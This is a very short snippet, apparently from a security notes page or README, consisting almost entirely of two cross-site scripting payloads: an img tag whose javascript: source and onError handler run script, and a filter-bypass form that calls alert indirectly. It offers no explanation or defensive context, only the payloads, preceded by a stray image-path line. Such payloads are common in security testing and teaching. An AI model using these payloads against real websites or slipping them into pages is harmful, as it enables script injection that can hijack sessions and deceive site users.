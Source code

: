 Simple XSS:
<img \src=javascript:alert(1) onError=location=\src>

bypass alert:
\[alert\]\[0\].call(this,1)

